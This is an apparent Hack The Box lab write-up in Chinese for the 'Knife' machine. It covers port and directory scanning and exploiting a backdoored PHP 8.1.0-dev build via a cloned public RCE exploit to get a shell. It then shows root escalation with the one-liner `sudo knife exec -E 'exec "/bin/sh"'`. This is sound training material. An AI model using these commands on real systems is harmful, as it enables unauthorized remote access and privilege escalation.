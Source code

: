 # Knife Writeup
###### tags: `htb`
> URL : https://app.hackthebox.eu/machines/347

IP : 10.10.69.238
## Recon
- 掃 Port
    - `rustscan -a 10.10.69.238 -r 1-65535`
        - ![](https://i.imgur.com/eytEe9s.png)
        - 有開 80 跟 443
- 觀察 Wappalyzer
    - ![](https://i.imgur.com/uJRIGKU.png)
        - Apache 2.4.41
        - PHP8.1.0
    - ![](https://i.imgur.com/E7SBRv4.png)
- 掃目錄
    - `python3 dirsearch.py -u http://10.10.10.242/`
    - 看起來沒有東西 QQ
        - ![](https://i.imgur.com/Kx8h2w7.png)


## Exploit
- 找到 php 8.1.0 有 RCE 漏洞
    - https://github.com/flast101/php-8.1.0-dev-backdoor-rce
    - `git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce`
- 執行起來
    - ![](https://i.imgur.com/pzJQzlP.png)
    - 就成功拿到 Shell ㄌ
- 也可以執行另外一個 reverse shell 版本
    - ![](https://i.imgur.com/4JZGBvV.png)
    - ![](https://i.imgur.com/qZkm9Zo.png)
- 取得 `user.txt`
    - ![](https://i.imgur.com/FWppblD.png)


## 提權
- 起手式 `sudo -l`
    - ![](https://i.imgur.com/xPJsZM9.png)
    - 發現我們可以用 `sudo knife`
- [GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo) 尋找刀子的 sudo 提權
    - `sudo knife exec -E 'exec "/bin/sh"'`
    - 就提權成功ㄌ
    - ![](https://i.imgur.com/VHcpqD3.png)
- 取得 Root Flag
    - ![](https://i.imgur.com/UVMDqRH.png)

## 心得
這題提醒我們，還是需要優先確認各種服務的版本號。